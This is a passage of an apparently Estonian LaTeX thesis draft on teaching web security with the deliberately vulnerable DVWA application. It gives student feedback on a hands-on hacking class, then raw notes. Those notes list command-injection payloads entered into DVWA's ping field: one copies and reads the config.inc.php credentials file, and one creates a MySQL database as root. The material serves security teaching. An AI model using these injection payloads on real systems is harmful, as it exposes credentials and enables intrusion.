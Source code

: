  Comments from students (unchanged): 
*It was a bit fast, but as I have been dealing with DVWA and this kind of course before, it was okay for me. I was helping other participants. 
*quite hard to follow and was specific for one team. 
*Very important for the Security team, and good new perspectives and experiences for everyone else too. 
*Interesting course. Liked that Estonians helped people who weren’t very familiar with linux. Nothing new to me. 
*This was carried out as a practical class and was quite tough since I had little previous Linux experience. 
*It was a very long, tiring practice lecture. Somehow it would have been better to separate the long lecture into several parts. It would have been more productive. Otherwise tired lecturer and students couldn’t follow.  
*I took my first baby steps towards being professional hacker. In some cases, following teachers teaching was hard because of the fast pace. 
*Not that relevant for all projects, but still important thing to understand as a IT student. 
*Awesome, hacking is interesting. 
*Nice topic and useful to our project. It was like a first bite of our project. And Margus taught things so that everyone can learn.
*That was something different out of software engineering field 
*Very good lecture. Difficult to follow. 
*I really like to search for security holes and vulnerability threats in web pages and this tool is one of the best for testing, but I didn't manage to follow the teacher's step by step tutorial. I have got messed up in virtual machines, because I didn't have the experience for them, however I have managed to learn more about them after this topic, also Margus explained more about DVWA tool for our team, so I got the idea.


\section{Toormaterjal}
Siin on asjad, kust tõstan mingid lõigud töösse

\begin{verbatim}
8.8.8.8; pwd

8.8.8.8; cp ../../config/config.inc.php /tmp/asi.txt

8.8.8.8; cat /tmp/asi.txt

Kuigi ping tulemuste all pole config faili sisu näha, 
tehes lehel parema kliki ja valides "View Page Source" näeme, et source faili sees on config.inc.php sisu olemas.


    DVWAs kasutades "Command execution" andmebaasi loomine:
    8.8.8.8; mysql --user=root --password='student' -e 'create database kala;'

Software eggs
http://www.itcollege.ee/?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000
    

\end{verbatim}

